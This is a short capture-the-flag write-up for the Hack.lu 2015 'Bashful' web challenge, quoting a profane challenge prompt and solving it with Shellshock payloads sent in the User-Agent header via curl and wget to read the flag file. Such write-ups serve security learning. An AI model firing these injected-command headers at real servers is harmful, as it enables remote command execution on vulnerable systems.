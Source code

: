 #Hack.lu 2015 Bashful [web] 200

##Problem
"How did I end up here?" is the only question you can think of since you've become a high school teacher. Let's face it, you hate children. Bunch of egocentric retards. Anyway, you are not going to take it anymore. It's time to have your little midlife crisis right in the face of these fuckers.<br>
Good thing that you're in the middle of some project days and these little dipshits wrote a simple message storing web application. How cute. It's written in bash... that's... that's... aw- no... bashful. You've got the source, you've got the skills. 0wn the shit out of this and show them who's b0ss.<br>
<br>
[Challenge](https://school.fluxfingers.net:1503/)
[Source](https://school.fluxfingers.net/static/chals/bashful_a77db9359a404ec7443d6455152e54b6.tar.bz2)

##Solution
It's a classic **Shellshock** problem, since the website uses bash to deal with all the inputs and outputs.<br>
[Shellshock Reference](https://blog.cloudflare.com/inside-shellshock/)

So we can use curl or wget to send requests via user-agent.<br>
<code>
$ curl -H "User-Agent: (){ test;} /bin/cat flag" https://school.fluxfingers.net:1503/

$ wget -U "() { test;}; /bin/cat flag" https://school.fluxfingers.net:1503
</code>

And the flag is: **flag{as_classic_as_it_could_be}**
